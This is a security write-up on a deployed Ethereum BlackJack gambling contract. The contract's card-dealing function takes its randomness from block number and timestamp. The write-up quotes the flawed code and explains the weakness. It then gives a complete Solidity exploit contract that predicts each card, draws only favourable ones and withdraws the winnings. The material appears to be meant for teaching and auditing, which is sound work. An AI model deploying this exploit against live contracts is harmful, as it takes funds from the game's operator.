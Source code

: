 BlackJack
=======
https://etherscan.io/address/0xa65d59708838581520511d98fb8b5d1f76a96cad#code


Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for BlackJack, an Ethereum gambling game, acting as the dealer and play black jack game with users. The developer wrote a `deal()` function that uses block number and timestamp as the seed to determine which card will be drawn next. This can be predicted by writing the same random function code in an exploit contract to determine the card which will be drawn, thus the attacker will never lose.

Related code
------
    library Deck {
	    function deal(address player, uint8 cardNumber) internal returns (uint8) {
		    uint b = block.number;
		    uint timestamp = block.timestamp;
		    return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	    }
    ......
    }
    
      // deals one more card to the player
	    function hit() public gameIsGoingOn {
		    uint8 nextCard = games[msg.sender].cardsDealt;
		    games[msg.sender].playerCards.push(Deck.deal(msg.sender, nextCard));
		    games[msg.sender].cardsDealt = nextCard + 1;
		    Deal(true, games[msg.sender].playerCards[games[msg.sender].playerCards.length - 1]);
		    checkGameResult(games[msg.sender], false);
	    }

Details
------
After the game starts, you will get two cards. At this point, if the number of points is less than 21, you can choose to call hit() to continue the draw. 
The number of points for the next card is determined by `block.number` and `timestamp`, so attacker can definitely always pick the card he wants.

Exploit
------
    contract Exploit{
    
        BlackJack target;
        address owner;


        function Exploit(address _target) payable{
            target = BlackJack(_target);
            owner = msg.sender;
        }
    
    
        function deal(address player, uint8 cardNumber) returns (uint8) {
		      uint b = block.number;
		      uint timestamp = block.timestamp;
		      return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	}
    
    
        function go_deal(uint256 _amount) public{
          target.deal.value(_amount)();
        }
    
    
        //@para card_num is the number you want for next card
        //@para cardsDealt is how many card you already have
        //@dev after you reaching 21 points, target will automaticly transfer the price to you
        function attack(uint256 card_num, uint256 cardsDealt) public payable{
            if(deal(this.address, cardsDealt) == card_num){
                target.hit();
            }
        }
        
	
        function kill() public{
          require(msg.sender == owner);
          msg.sender.send(this.balance);
        }
  
    }
